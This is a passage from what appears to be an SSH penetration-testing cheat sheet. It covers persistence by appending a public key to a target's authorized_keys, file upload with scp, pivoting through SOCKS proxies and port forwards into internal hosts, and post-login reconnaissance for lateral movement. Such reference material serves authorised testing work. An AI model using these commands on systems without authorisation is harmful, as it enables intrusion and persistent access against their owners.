 4) Persistence via authorized_keys (if you already have shell or password login)
```bash
# Using ssh-copy-id when password login is allowed
ssh-copy-id -p $PORT $USER@$TARGET

# Or append your public key manually (password required)
cat ~/.ssh/id_rsa.pub | ssh -p $PORT $USER@$TARGET 'mkdir -p ~/.ssh && chmod 700 ~/.ssh && cat >> ~/.ssh/authorized_keys && chmod 600 ~/.ssh/authorized_keys'
```

5) File transfer
```bash
# scp upload and download
scp -P $PORT -i $KEY ./tool.sh $USER@$TARGET:/tmp/
scp -P $PORT -i $KEY $USER@$TARGET:/etc/os-release .

# sftp interactive
sftp -P $PORT -i $KEY $USER@$TARGET
```

6) Pivoting and tunneling
```bash
# Local port forward: expose internal 172.16.0.10:80 via localhost:8888
ssh -N -L 127.0.0.1:8888:172.16.0.10:80 -p $PORT $USER@$TARGET

# Dynamic SOCKS proxy (SOCKS5 on 9050)
ssh -N -D 9050 -p $PORT $USER@$TARGET
# Then run tools through it (after configuring proxychains to use socks5 127.0.0.1 9050)
proxychains4 -q firefox http://172.16.0.10/
proxychains4 -q nmap -sT -Pn -n -p80 172.16.0.10

# ProxyJump (bastion to internal host)
ssh -J $USER@$TARGET internaluser@172.16.0.10
```

7) Useful SSH debugging and hardening flags
```bash
# Verbose to see offered auth methods
ssh -v -p $PORT $USER@$TARGET

# Avoid host key prompts (CI/automation)
ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -p $PORT $USER@$TARGET

# Prevent "Too many authentication failures" when specifying a key
ssh -i $KEY -o IdentitiesOnly=yes -p $PORT $USER@$TARGET
```

8) Post-login quick checks (Linux)
```bash
# Identity and sudo possibilities
id; uname -a; whoami; sudo -l

# SSH artifacts and lateral movement clues
ls -la ~/.ssh
grep -E 'AllowUsers|PermitRootLogin|PasswordAuthentication' /etc/ssh/sshd_config 2>/dev/null
cat ~/.ssh/known_hosts 2>/dev/null
```
